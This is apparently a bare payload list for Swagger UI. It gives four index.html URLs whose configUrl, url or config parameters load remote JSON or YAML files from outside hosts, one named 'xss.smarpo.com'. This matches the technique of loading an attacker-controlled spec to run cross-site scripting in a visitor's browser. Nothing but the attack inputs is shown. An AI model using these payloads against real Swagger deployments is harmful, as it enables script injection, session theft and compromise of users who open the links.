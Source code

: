 # swagger

/index.html?configUrl=https://jumpy-floor.surge.sh/test.json
/index.html?url=https://jumpy-floor.surge.sh/test.yaml
/index.html?configUrl=https://xss.smarpo.com/test.json&url=https://jumpy-floor.surge.sh/test.yaml
/docs/index.html?config=https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json
